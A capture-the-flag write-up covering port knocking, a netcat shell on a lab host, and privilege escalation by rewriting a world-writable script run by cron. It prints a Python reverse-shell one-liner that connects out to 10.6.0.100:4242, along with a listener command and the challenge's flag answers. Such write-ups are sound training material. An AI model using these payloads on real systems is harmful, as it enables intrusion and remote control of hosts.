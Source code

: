 # Knock knock knocking on shuttles door

## Categories

web, privesc, network

## Writeup

1. Given the website IP __10.6.0.2__ (after OpenVPN) and a slight recon to know that Apache/2.4.41 (Ubuntu) Server is running on port __80__, Directory search starting from `/` with OWASP DirBuster, that leads to the finding of the following site structure :
	
```
	/
	|- /icons
	|- /Home
		|- *.jpg
	|- /WhoIsThere
		|- /OpenSesame 
```

2. The hidden text file contains :

It would be a tcp syn to knock on the doors of air locks:
1337
68
61
78

thus, we can get the first flag here

3. After TCP SYN scan with Nmap, we can see that all 4 ports are closed at the moment, which may indicates that there is firewall or similar security protection that is blocking the connection
4. By using port knocking [technique](https://d00mfist.gitbooks.io/ctf/content/port_knocking.html) on the given ports in the same order, and have the Nmap scanning afterward  (ie. `knock 10.6.0.2 1337 68 61 78 && nmap 10.6.0.2`), we can see that there is a new open port on port __2021__
5. We can start the communication with port 2021 through [netcat](https://linux.die.net/man/1/nc), which leads us to a remote shell service that give us the access to the system (username:spaceotter)
6. After a simple shell upgrading and stabilization, we can simply use `ls -la` command to list the current directory, and `cat` command to output the content of flag.txt, that give us the 2nd flag

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

7. During the searching of privesc vulnerable component I found a suspicious bash file named `safetyCheck` in directory `/opt` , which is owned by `root` but anyone can modify it
8. Cron job is running on the target system, that has the following content in definition file `/etc/crontab` :

```text

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

```

In file `/etc/cron.d/cronJob` :

```text

SHELL=/bin/bash					# Use /bin/sh to run commands, no matter what /etc/passwd says
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=control					# Mail any output to `control`, no matter whose crontab this is

* * * * * control /opt/safetyCheck.sh		# Execute this script at every minute as user `control`

```

Command `crontab -e` does the editing of the current crontab using the editor specified by the VISUAL or EDITOR environment variables. After you exit from the editor the modified crontab will be installed automatically

Running process with command `ps -aux` :

```text
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  27740 22912 ?        Ss   13:24   0:00 /usr/bin/pyth
root           8  0.0  0.0   2608   592 ?        S    13:24   0:00 /bin/sh /usr/
root           9  0.0  0.0   4044  2596 ?        S    13:24   0:00 cron -f		# stay in foreground mode
root          10  0.0  0.0   4884   704 ?        S    13:24   0:00 knockd -D -v
root          13  0.0  0.0   6668  5396 ?        S    13:24   0:00 /usr/sbin/apa
www-data      14  0.0  0.0 1932212 4028 ?        Sl   13:24   0:00 /usr/sbin/apa
www-data      15  0.0  0.0 1932212 4028 ?        Sl   13:24   0:00 /usr/sbin/apa
root          80  0.0  0.0   4884  3280 ?        Ss   13:25   0:00 knockd -D -v
root          81  0.0  0.0   2608   608 ?        S    13:25   0:00 sh -c socat t
root          82  0.0  0.0   6964  1844 ?        S    13:25   0:00 socat tcp-l:2
root          88  0.0  0.0   7044  2708 ?        S    13:25   0:00 socat tcp-l:2
root          89  0.0  0.0   4740  3092 pts/0    Ss   13:25   0:00 su - spaceott
spaceot+      90  0.0  0.0   2608   540 pts/0    S    13:25   0:00 -sh
spaceot+      93  0.0  0.0  12364  8820 pts/0    S+   13:25   0:00 python3 -c im
spaceot+      94  0.0  0.0   4468  3704 pts/1    Ss   13:25   0:00 /bin/bash
spaceot+     719  0.0  0.0   4468  3500 pts/1    S    14:20   0:00 /bin/bash
spaceot+     722  0.0  0.0   4468  3772 pts/1    S    14:20   0:00 bash -h
spaceot+     781  0.0  0.0   6116  3004 pts/1    R+   14:25   0:00 ps -aux
```

9. Since we are able to change the script file, thus we can create a new reverse shell through the payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.0.100",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

and create a reverse shell from local with `netcat`, ie. `nc -nlvp 4242`

10. After several minutes, you should be able to get the following reverse shell as user `control` and get your last flag !


## Flags

1. ctf{1337,68,61,78}
2. ctf{we_have_lift_off}
3. ctf{sudoToTheMoon} (help with CyptoCat's writeup)

## References :

- [OWASP Dirbuster on Kali](https://tools.kali.org/web-applications/dirbuster)
- [TCP SYN scan with Nmap](https://nmap.org/book/synscan.html)
- [Nmap service listing](https://svn.nmap.org/!svn/bc/3320/nmap/nmap-services)
- [TryHackMe Advent of Cyber 2 Day 24 - Upgrade and stabilize your remote shell](https://tryhackme.com/room/adventofcyber2)
- [TryHackMe Linux Privilege Escalation](https://tryhackme.com/room/linuxprivesc)
- [About crontab(1) command](https://man.openbsd.org/crontab.1)
- [About crontab(5) cronJob configuration](https://man.openbsd.org/crontab.5)
- [Crontab syntax checker](https://crontab.guru)
- [Difference between crontab and cron.d](https://unix.stackexchange.com/questions/417323/what-is-the-difference-between-cron-d-as-in-etc-cron-d-and-crontab)
- [CyptoCat's Writeup on Youtube](https://www.youtube.com/watch?v=hY446_xs-DE&t=2590s) [Task 3 only]
- [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/2148c894524d89892db681e2a815c45939fdc61b/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
- [About netcat](https://en.wikipedia.org/wiki/Netcat)